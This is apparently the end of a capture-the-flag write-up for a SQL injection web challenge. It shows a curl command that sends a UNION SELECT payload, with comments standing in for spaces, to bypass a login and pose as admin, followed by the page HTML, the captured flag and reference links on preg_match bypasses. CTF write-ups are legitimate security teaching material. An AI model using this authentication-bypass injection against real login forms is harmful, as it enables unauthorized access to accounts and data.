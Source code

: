 ```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=whtvr'UNION/**/SELECT/**/'admin','YOUR_HASH_PASS_HERE&pass=admin"
```

```html

<!DOCTYPE html>
<html>
<head>
    <title>Mentoring program</title>
</head>
<body>
        <form method="post">
        <input type="text" placeholder="Username" name="user" required>
        <input type="password" placeholder="Password" name="pass" required>
        <button type="submit">Login</button>
        <br><br>
        Wrong password    </form>
        <!-- <a href="/?pls_help">get some help</a> -->
</body>
</html>

```

## Flag

shellmates{c0ngr4tul4t10ns_U_d1d_1t!!_fe4cd84591ea}

## More Information

 - Bypass `preg_match()` function : 
   - https://bugs.php.net/bug.php?id=69274
   - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp
 - What is `die()` function : https://www.php.net/manual/fr/function.die.php
 - SQL queries :
   - `SELECT` : https://www.w3schools.com/sql/sql_select.asp 
   - `UNION` : https://sql.sh/cours/union